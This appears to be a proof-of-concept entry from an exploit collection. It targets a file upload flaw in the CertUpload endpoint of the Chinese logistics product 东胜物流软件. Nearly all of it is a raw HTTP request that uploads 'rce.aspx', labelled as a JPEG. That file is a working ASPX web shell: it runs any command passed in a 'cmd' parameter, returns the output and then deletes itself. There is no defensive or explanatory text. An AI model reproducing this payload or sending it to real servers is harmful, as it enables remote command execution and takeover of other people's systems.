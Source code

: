 # ds_CertUpload_fileupload

from: https://github.com/wy876/POC/blob/main/%E4%B8%9C%E8%83%9C%E7%89%A9%E6%B5%81%E8%BD%AF%E4%BB%B6/%E4%B8%9C%E8%83%9C%E7%89%A9%E6%B5%81%E8%BD%AF%E4%BB%B6CertUpload%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
product: 东胜物流软件

```
POST /MsWlTruck/CertUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTqkdY1lCvbvpmown

------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="TruckNo";

1
------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="Cert_Type";

1
------WebKitFormBoundaryaKljzbg49Mq4ggLz--
```

